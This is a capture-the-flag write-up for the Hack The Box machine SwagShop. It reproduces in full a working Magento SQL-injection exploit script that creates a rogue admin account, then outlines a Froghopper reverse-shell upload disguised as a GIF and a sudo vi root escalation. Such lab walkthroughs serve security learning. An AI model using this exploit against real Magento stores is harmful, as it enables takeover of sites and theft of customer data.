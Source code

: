 ```yaml
---
title:     "Hack The Box - Swagshop"
tags: [linux,easy,sudo,php]
---
```


![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-swagshop/1.png)

We are going to pwn SwagShop from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/188>


Like always begin with our Nmap Scan.

## Nmap Scan Results:

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http


PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
|   256 2e:30:00:7a:92:f0:89:30:59:c1:77:56:ad:51:c0:ba (ECDSA)
|_  256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Home page
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.16 (95%), Linux 3.18 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.8 (95%), Linux 4.4 (95%), Linux 4.2 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Lets Begin with HTTP 
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-swagshop/2.png)
It is Magento 

>Magento is an open-source e-commerce platform written in PHP. It is one of the most popular open e-commerce systems in the network. 

Run Gobuster on background

GObuster Results:
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.140
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/12/27 09:57:45 Starting gobuster
===============================================================
/app (Status: 301)
/errors (Status: 301)
/favicon.ico (Status: 200)
/includes (Status: 301)
/index.php (Status: 200)
/js (Status: 301)
/lib (Status: 301)
/media (Status: 301)
/pkginfo (Status: 301)
/server-status (Status: 403)
/shell (Status: 301)
/skin (Status: 301)
/var (Status: 301)
===============================================================
2019/12/27 10:00:03 Finished
===============================================================
```

So I searched for exploits available, and I choose randomly
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-swagshop/3.png)

>https://www.exploit-db.com/exploits/37977

This script will create admin account with username ``forme`` and password ``forme``
I changed the script's target url and executed.

```
 
import requests
import base64
import sys

target = "http://10.10.10.140/"

if not target.startswith("http"):
    target = "http://" + target

if target.endswith("/"):
    target = target[:-1]

target_url = target + "/index.php/admin/Cms_Wysiwyg/directive/index/"

q="""
SET @SALT = 'rp';
SET @PASS = CONCAT(MD5(CONCAT( @SALT , '{password}') ), CONCAT(':', @SALT ));
SELECT @EXTRA := MAX(extra) FROM admin_user WHERE extra IS NOT NULL;
INSERT INTO `admin_user` (`firstname`, `lastname`,`email`,`username`,`password`,`created`,`lognum`,`reload_acl_flag`,`is_active`,`extra`,`rp_token`,`rp_token_created_at`) VALUES ('Firstname','Lastname','email@example.com','{username}',@PASS,NOW(),0,0,1,@EXTRA,NULL, NOW());
INSERT INTO `admin_role` (parent_id,tree_level,sort_order,role_type,user_id,role_name) VALUES (1,2,0,'U',(SELECT user_id FROM admin_user WHERE username = '{username}'),'Firstname');
"""


query = q.replace("\n", "").format(username="forme", password="forme")
pfilter = "popularity[from]=0&popularity[to]=3&popularity[field_expr]=0);{0}".format(query)

# e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ decoded is{{block type=Adminhtml/report_search_grid output=getCsvFile}}
r = requests.post(target_url, 
                  data={"___directive": "e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ",
                        "filter": base64.b64encode(pfilter),
                        "forwarded": 1})
if r.ok:
    print "WORKED"
    print "Check {0}/admin with creds forme:forme".format(target)
else:
    print "DID NOT WORK"

```

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-swagshop/4.png)

It created an account , Now we can login with `` forme : forme ``

``http://10.10.10.140/index.php/admin``

and Im succesfully logged in.

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-swagshop/5.png)

## Froghopper Attack

I searched for any ways to reverse shell once we get authenticated and I found this

>https://www.foregenix.com/blog/anatomy-of-a-magento-attack-froghopper

According to the exploit I need to first enable ``Symlink``
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-swagshop/6.png)

Once its enabled 
We need to create Category so `` Catalog-> Manage Categories -> and add our malicious code with image ``.

I used pentest monkey reverse shell and added ``GIF89`` which makes the file as gif image.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-swagshop/7.png)


![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-swagshop/8.png)
Upload it and save category.
Once its done move to `` Newsletter -> Newsletter Templates `` and inject the payload
Click Preview Template and start listener on your machine.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-swagshop/9.png)

We got the shell.

## Privilege Escalation:

As always I started with ``sudo -l``
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-swagshop/10.png)

It looks like ``/usr/bin/vi`` can run any files in ``/var/www/html`` as sudo without root password

>https://gtfobins.github.io/gtfobins/vi/

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-swagshop/11.png)
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-swagshop/12.png)

We goot Root!



